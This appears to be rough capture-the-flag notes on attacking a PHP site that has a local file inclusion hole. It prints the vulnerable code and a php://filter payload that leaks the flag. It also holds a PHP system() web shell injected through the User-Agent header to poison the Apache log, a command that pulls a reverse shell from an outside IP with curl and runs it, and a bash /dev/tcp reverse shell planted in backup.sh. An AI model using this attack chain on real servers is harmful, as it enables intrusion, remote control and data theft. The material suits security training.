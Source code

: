 ?view=php://filter/convert.base64-encode/resource=dogs/../index

$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }


1 flag
php://filter/convert.base64-encode/resource=dogs/../flag

go!PD9waHAKJGZsYWdfMSA9ICJUSE17VGgxc18xc19OMHRfNF9DYXRkb2dfYWI2N2VkZmF9Igo/Pgo= 

User-Agent: <?php system($_GET['test']);?>

2 try
GET /?view=dogs/../../../../../../../../var/log/apache2/access.log&ext=&test=ls    

test=curl+10.10.128.78/php-reverse-shell.php+-o+shell.php+&&+chmod++x+/tmp/shell+&&+/tmp/shell

find / -name *flag* 2>/dev/null

echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.128.78/1234 0>&1'" >> backup.sh
